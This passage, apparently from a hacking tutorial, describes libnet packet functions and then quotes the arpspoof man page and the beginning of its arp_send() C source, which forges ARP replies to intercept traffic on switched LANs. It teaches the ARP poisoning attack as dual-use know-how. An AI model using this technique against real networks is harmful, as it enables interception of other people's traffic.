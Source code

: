<strong><em>libnet_destroy_packet()</em></strong> frees the memory associated with the packet.

<strong><em>libnet_close_link_interface()</em></strong> closes an opened low-level packet interface. Returned is 1 upon success or -1 on error.
</pre>

With a basic understanding of C, API documentation, and common sense, you can teach yourself just by examining open source projects. For example, Dug Song provides a program called arpspoof, included with dsniff, that performs the ARP redirection attack.

__From the arpspoof Man Page__

<pre style="color: white;">
NAME
       arpspoof - intercept packets on a switched LAN

SYNOPSIS
       arpspoof [-i interface] [-t target] host

DESCRIPTION
       arpspoof redirects packets from a target host (or all hosts) on the LAN
       intended for another host on the LAN by forging ARP replies. This is
       an extremely effective way of sniffing traffic on a switch.
       Kernel IP forwarding (or a userland program which accomplishes the
       same, e.g. fragrouter(8)) must be turned on ahead of time.

OPTIONS
       -i interface
              Specify the interface to use.

       -t target
              Specify a particular host to ARP poison (if not specified, all
              hosts on the LAN).

        host  Specify the host you wish to intercept packets for (usually the
              local gateway).

SEE ALSO
       dsniff(8), fragrouter(8)
AUTHOR
       Dug Song &lt;dugsong@monkey.org&gt;
</pre>

The magic of this program comes from its _arp_send()_ function, which also uses _libnet_ to spoof packets. The source code for this function should be readable to you, since many of the previously explained _libnet_ functions are used (shown in bold below). The use of structures and an error buffer should also be familiar.

__arpspoof.__

```c
static struct libnet_link_int* llif;
static struct ether_addr spoof_mac, target_mac;
static in_addr_t spoof_ip, target_ip;

...

int arp_send(struct libnet_link_int* llif, char* dev, int op, u_char* sha, 
    in_addr_t spa, u_char* tha, in_addr_t tpa)
{
    char ebuf[128];
    u_char pkt[60];

    if (sha == NULL && (sha = (u_char *)libnet_get_hwaddr(llif, dev, ebuf)) == NULL) 
    {
        return -1;
    }
    if (spa == 0) 
    {
        if ((spa = libnet_get_ipaddr(llif, dev, ebuf)) == 0)
```